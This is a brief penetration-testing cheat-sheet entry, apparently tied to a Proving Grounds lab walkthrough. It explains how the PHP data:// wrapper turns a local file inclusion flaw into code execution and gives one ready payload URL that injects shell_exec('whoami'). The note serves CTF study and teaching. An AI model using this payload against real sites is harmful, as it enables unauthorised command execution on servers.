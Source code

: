 ## <ins>PHP Wrapper</ins>

- [Slort PG Walkthrough](https://defaultcredentials.com/ctf/proving-grounds/slort-proving-grounds-walkthrough/)

It can be used to exploit Directory Traversal and LFI. This gives us additional flexibility when attempting to inject PHP code via LFI vulnerabilities. This wrapper provides us with an alternative payload when we cannot poison a local file with PHP code.

```
# We know this is vulnerable to LFI so we use a data wrapper
# Hence, LFI without manipulating the local file. # ADDING SHELL EXEC IN END TO SEE
http://<IP>/menu.php?file=data:text/plain,<?php echo shell_exec("whoami")?>
```

